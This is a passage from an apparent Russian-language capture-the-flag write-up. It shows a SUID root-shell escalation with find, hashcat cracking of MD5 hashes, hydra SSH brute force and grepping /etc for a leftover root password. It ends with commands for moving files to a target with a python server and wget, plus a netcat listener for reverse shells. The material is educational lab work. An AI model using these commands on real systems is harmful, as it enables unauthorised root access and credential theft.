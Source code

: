 ```bash
find . -exec /bin/sh -p \; -quit
```
После этого мы получим оболочку с правами рута, поэтому можем прочитать флаг в его директории :)

### Вот список полезных ссылок про suid, его использование для поднятия привилегий:

- [SUID Executables- Linux Privilege Escalation](https://blog.certcube.com/suid-executables-linux-privilege-escalation/)
- [Я есть root. Повышение привилегий в ОС Linux через SUID/SGID](https://habr.com/ru/companies/jetinfosystems/articles/506750/)
- [Suid - Wikipedia](https://ru.wikipedia.org/wiki/Suid)

## hash_mainkun
Для начала нам дан файл с хэшами и работниками, исходя их этого понимаем, что нужно использовать hashcat и словарь, который прикреплен к заданиям:

```bash
hashcat -m 0 -a 0 /path/to/hashes /path/to/wordlist --show
```

Получаем список паролей, который будем использовать для подключения, для перебора пользователей и паролей будем использовать гидру:

```bash
hydra -L /path/to/workers -P /path/to/wordlist ssh://<host> -t 4 -V -p 2226
```

После подбора кредов подключаемся под пользователем, который подобрался

Попав на машину необходимо отыскать креды пользователя, довольно неприятное занятие если делать это вручную, поэтому воспользуемся командой:

```bash
grep -rn /etc/ -e 'pass' 2>/dev/null
```

Оказывается, что кто-то оставил пароль от рута в sshd_config, используем данный пароль и читаем флаг в /root/flag.txt

## Остальные команды которые обсуждались (или нет) на практике:

- Поднятие сервера на python для прокидывания файлов:
Выполняем на машине, с которой хотим прокинуть файл, для просмотра будет доступна директория с которой была запущена команда
```bash
python3 -m http.server 80
```
На машине, на которую прокидываем файл выполняем
```bash
wget http://<host>/file
```

- Прослушивание порта через nc (очень часто необходимо при прокидывании reverse-shell):
```bash
nc -lvnp <порт>
```
[Генератор reverse-shell](https://www.revshells.com)




